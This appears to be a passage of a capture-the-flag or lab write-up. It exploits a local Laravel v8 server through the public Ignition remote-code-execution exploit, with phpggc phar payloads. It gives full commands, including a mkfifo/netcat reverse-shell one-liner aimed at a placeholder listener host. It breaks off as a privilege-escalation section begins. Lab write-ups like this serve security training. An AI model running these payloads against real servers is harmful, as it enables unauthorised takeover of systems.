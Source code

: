 Now, navigate to the webpage http://127.0.0.1:8000

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/895c6b59-b0f1-46b0-8340-c470ede017d0)

We can see the version of Laravel to be ```Laravel v8 (PHP v7.4.18)```, there's actually a public exploit for this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/46367446-ea01-44e1-8694-916fe77b27c2)

You can get the exploit from [here](https://github.com/ambionics/laravel-exploits)

First, we need to clone this [github](https://github.com/ambionics/phpggc.git) repo

command:```git clone https://github.com/ambionics/phpggc.git```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/18e4a834-95d0-47d5-b665-a572400904d7)

Nice, now lets generate our ```exploit.phar``` payload

command:```php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id```

As you can see we are trying to run the ```id``` command, if the command gets executed, it means we have successfully exploited the laravel application

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3dbe1356-c5ea-4237-92d5-610f432621a3)

nice nice, now lets run the exploit

command:```python ../laravel-ignition-rce.py http://127.0.0.1:8000 /tmp/exploit.phar```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2adfb693-7232-43db-b88e-8cf704acd7f1)

our exploit ran successfully hehe

Now, lets try to get a reverse shell

command:```php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f"```

Ensure you edit the ```LHOST``` and ```LPORT```

Then we run the exploit

command:```python ../laravel-ignition-rce.py http://127.0.0.1:8000 /tmp/exploit.phar```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/352de436-2d98-4291-afed-5b948382a728)

cool, we got root shell😎.

Well, that's not all

Let's check out an unintended method to escalate our privileges


# Unintented Method to Privilege Escalation

Checking for suid binaries
